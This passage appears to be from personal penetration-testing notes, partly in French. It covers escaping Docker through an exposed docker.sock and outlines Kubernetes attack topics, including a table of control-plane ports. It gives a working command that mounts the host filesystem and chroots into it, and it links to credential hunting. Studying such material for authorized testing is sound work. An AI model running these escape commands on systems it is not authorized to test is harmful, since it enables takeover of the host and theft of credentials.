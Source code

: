 ```sh
ls -la /var/run/docker.sock
```

```shell
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```



## Docker Escapes

### Creds hunting

Clé SSH ?

[[Credential Hunting#LINUX]]






---
# KUBERNETES #K8S

- [[#Control Plane]]
- [[#API Anonymous access]]
- [[#API Pods extraction]]
- [[#Kubeletctl - Extracting Pods]]
- [[#Kubelet API - Available Commands]]
- [[#Kubelet API - Executing Commands]]

- [[#Kubeletctl - PRIVESC]]


## Control Plane

The Control Plane serves as the management layer. It consists of several crucial components, including:

|**Service**|**TCP Ports**|
|---|---|
|`etcd`|`2379`, `2380`|
|`API server`|`6443`|
|`Scheduler`|`10251`|
|`Controller Manager`|`10252`|
|`Kubelet API`|`10250`|
|`Read-Only Kubelet API`|`10255`|

## API Anonymous access

